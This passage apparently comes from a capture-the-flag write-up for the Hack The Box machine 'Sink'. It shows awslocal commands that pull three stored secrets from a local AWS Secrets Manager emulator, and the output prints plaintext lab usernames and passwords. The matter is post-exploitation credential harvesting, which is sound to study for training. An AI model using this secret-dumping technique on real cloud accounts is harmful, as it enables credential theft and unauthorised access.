 ```bash
            "Tags": [],
            "SecretVersionsToStages": {
                "66d1c0e1-894f-408f-b387-70aa9c7876a3": [
                    "AWSCURRENT"
                ]
            }
        }
    ]
}
```

Here are 3 secrets let's grab their values with their `ARN` names
2. Get Secret Value

Jenkins Login secret

```bash
awslocal secretsmanager  get-secret-value --secret-id 'arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-NBFjo' --endpoint-url http://localhost:4566
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-bUxRg",
    "Name": "Jenkins Login",
    "VersionId": "5a8c0ebc-97fb-4d7a-a8d5-6680c042fb98",
    "SecretString": "{\"username\":\"john@sink.htb\",\"password\":\"R);\\)ShS99mZ~8j\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1631704748
}
```

Sink Panel secret

```bash
awslocal secretsmanager  get-secret-value --secret-id 'arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-anYLp' --endpoint-url http://localhost:4566
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-miuqi",
    "Name": "Sink Panel",
    "VersionId": "9f102823-9dc2-4032-bac4-9ac3de5e91f5",
    "SecretString": "{\"username\":\"albert@sink.htb\",\"password\":\"Welcome123!\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1631704748
}
```

Jira Support secret

```bash
awslocal secretsmanager  get-secret-value --secret-id 'arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-HvtSE' --endpoint-url http://localhost:4566
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-cKNwk",
    "Name": "Jira Support",
    "VersionId": "66d1c0e1-894f-408f-b387-70aa9c7876a3",
    "SecretString": "{\"username\":\"david@sink.htb\",\"password\":\"EALB=bcC=`a7f2#k\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1631704748
}
```
